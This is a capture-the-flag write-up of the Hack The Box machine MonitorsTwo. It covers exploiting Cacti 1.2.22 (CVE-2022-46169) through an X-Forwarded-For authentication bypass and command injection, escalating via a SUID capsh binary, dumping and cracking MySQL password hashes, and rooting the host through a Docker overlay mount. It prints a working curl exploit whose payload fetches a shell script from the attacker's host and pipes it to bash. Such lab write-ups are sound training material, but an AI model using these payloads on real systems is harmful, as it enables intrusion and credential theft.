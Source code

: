 ![](monitorstwo_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** `10.10.11.211 monitorstwo.htb`

****nmap scan: TCP/IP****

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48add5b83a9fbcbef7e8201ef6bfdeae (RSA)
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Login to Cacti
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Web server is running "Cacti" Version 1.2.22.

![](screenshots/http-10.129.215.103.png)

There is a Unauthenticated Remote Code Execution vulnerability discovered in Cacti version <=1.2.22 -> https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/

# Foothold

## Cacti Unauthenticated RCE CVE-2022-46169

There is a Unauthenticated Remote Code Execution vulnerability discovered in Cacti version <=1.2.22 -> https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/

And there's also a MSF module (`exploit/linux/http/cacti_unauthenticated_cmd_injection`) for this exploit -> https://www.rapid7.com/db/modules/exploit/linux/http/cacti_unauthenticated_cmd_injection/

![](screenshots/http-10.129.215.103-rce.png)

Got meterpreter shell in the docker container.


* There are 2 bugs are leveraged to achieve the full RCE
  1. **Authentication Bypass** -> `X-Forwarded-For: 127.0.0.1`
    * The script `/remote_agent.php` is supposed to be accessed by authorized clients only.
    * From [the blog post](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/) "Authentication Bypass" section, we can understand that we can bypass this check using `X-Forwarded-For` header.

  2. **Command Injection** -> `action=polldata&local_data_ids%5b%5d=6&host_id=1&poller_id=;sleep+10`
    * From [the blog post](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/) "Command Injection Vulnerability", We can trigger `proc_open()` php function with `poller_id` parameter value using `/remote_agent.php` with `polldata` action when an item with the `POLLER_ACTION_SCRIPT_PHP` action exists and blog stated that this action is added by some predefined templates like "`Device - Uptime`" or "`Device - Polling Time`" and we can find one of these predefined templates with there corresponding id using `local_data_ids` parameter.


**Manually Exploit**

* Save reverse shell in index.html file.

Make request to `/remote_agent.php` with the payload -> `;curl+10.10.14.14|bash`
```bash
curl -H $'X-Forwarded-For: 127.0.0.1' $'http://10.129.215.103/remote_agent.php?action=polldata&local_data_ids[]=6&host_id=1&poller_id=;curl+10.10.14.14|bash'
```

![](screenshots/http-10.129.215.103-rce-manual.png)

## Lateral movement

* There is `entrypoint.sh` in root (`/`) which contains mysql login details.

There is also a interesting SUID binary
```bash
(remote) www-data@50bca5e748b0:/$ find / -perm /4000 2>/dev/null
... [snip] ...

/sbin/capsh

... [snip] ...
```

Using GTFObins we can get root in the docker -> https://gtfobins.github.io/gtfobins/capsh/#suid
```bash
/sbin/capsh --gid=0 --uid=0 --

... [snip] ...

(remote) www-data@50bca5e748b0:/$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@50bca5e748b0:/# 

```

Found some password hashes from mysql database
```bash
mysql --host=db --user=root --password=root

... [snip] ...

MySQL [cacti]> SELECT username,password,email_address FROM cacti.user_auth;
+----------+--------------------------------------------------------------+------------------------+
| username | password                                                     | email_address          |
+----------+--------------------------------------------------------------+------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC | admin@monitorstwo.htb  |
| guest    | 43e9a4ab75570f5b                                             |                        |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C | marcus@monitorstwo.htb |
+----------+--------------------------------------------------------------+------------------------+
3 rows in set (0.001 sec)
```

<!--
marcus:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
admin:$2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
-->

"marcus" hash cracked using john.
```bash
❯ john hashes --show
marcus:funkymonkey

1 password hash cracked, 1 left
```

* We can use these creds in ssh login.

# Privesc

## Docker overlay FS

There is a mount in the host that looks interesting

![](screenshots/container-mount.png)

ChatGPT explains, what it is...

![](screenshots/container-mount-chatgpt-explain.png)

And we can access container file from host using it

![](screenshots/container-mount-chatgpt-explain-1.png)

![](screenshots/container-mount-access.png)

And so we can also execute container binaries in the host machine.

![](screenshots/rooted.png)

